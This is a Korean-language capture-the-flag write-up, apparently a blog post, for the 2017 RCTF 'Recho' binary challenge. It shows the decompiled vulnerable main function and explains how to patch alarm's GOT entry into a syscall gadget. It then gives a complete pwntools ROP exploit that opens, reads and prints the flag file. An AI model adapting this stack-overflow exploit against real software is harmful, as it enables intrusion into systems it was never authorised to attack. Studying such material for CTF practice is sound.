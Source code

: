 ```yaml
---
title: "2017 RCTF Recho"
date: 2020-1-4
tags: [RCTF]
categories: [RCTF]
---
```


64비트 바이너리가 주어진다.

```
Recho: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=6696795a3d110750d6229d85238cad1a67892298, not stripped
```

메인에서는 원하는만큼 크기를 정하고 그 크기만큼 입력받을 수 있다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char nptr; // [rsp+0h] [rbp-40h]
  char buf[40]; // [rsp+10h] [rbp-30h]
  int v6; // [rsp+38h] [rbp-8h]
  int v7; // [rsp+3Ch] [rbp-4h]

  Init();
  write(1, "Welcome to Recho server!\n", 0x19uLL);
  while ( read(0, &nptr, 0x10uLL) > 0 )
  {
    v7 = atoi(&nptr);
    if ( v7 <= 15 )
      v7 = 16;
    v6 = read(0, buf, v7);
    buf[v6] = 0;
    printf("%s", buf);
  }
  return 0;
}
```

flag라는 파일을 읽어오는 문제다. 근데 .data 영역에 flag라는 문자열이 존재했다.

flag라는 파일을 읽기 위한 함수가 딱히 존재하지 않았다. 그냥 syscall을 이용해서 orw해주면 되는 문제다.

근데 int 0x80이 바이너리 내에 존재하지 않는다. 나 같은 경우에는 alarm함수의 syscall을 이용했다.

![](https://user-images.githubusercontent.com/32904385/71731844-12db9880-2e89-11ea-83d5-b54405616f5b.png)

alarm+5 위치에 syscall이 존재했다. `add byte ptr [rdi], al ; ret` 가젯을 이용해서 rdi에 alarm@got를 넣어주고 al 값에 5를 넣어주고 alarm을 호출하면 syscall이 호출될 것이다. 이를 이용해서 orw를 해주면 된다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./Recho')
p = process('./Recho')
prdi = 0x00000000004008a3 # pop rdi ; ret
prax = 0x00000000004006fc # pop rax ; ret
add_rdi_al = 0x000000000040070d # add byte ptr [rdi], al ; ret
prsi_r15 = 0x00000000004008a1 # pop rsi ; pop r15 ; ret
prdx = 0x00000000004006fe # pop rdx ; ret
flag = 0x0000000000601058
syscall = e.plt['alarm']

# alarm+5 syscall
payload = 'A'*48
payload += 'realsung'
payload += p64(prdi) + p64(e.got['alarm'])
payload += p64(prax) + p64(0x5) + p64(add_rdi_al)

# sys_open(flag,0,0)
payload += p64(prdi) + p64(flag)
payload += p64(prsi_r15) + p64(0) + p64(0)
payload += p64(prdx) + p64(0)
payload += p64(prax) + p64(0x2) + p64(syscall)

# sys_read(3,bss,100)
payload += p64(prdi) + p64(3)
payload += p64(prsi_r15) + p64(e.bss()) + p64(0)
payload += p64(prdx) + p64(100)
payload += p64(prax) + p64(0) + p64(syscall)

# sys_write(1,bss,100)
payload += p64(prdi) + p64(1)
payload += p64(prsi_r15) + p64(e.bss()) + p64(0)
payload += p64(prdx) + p64(100)
payload += p64(prax) + p64(1) + p64(syscall)

p.sendlineafter('server!\n',str(1000))
p.send(payload)

p.shutdown()
p.interactive()
```

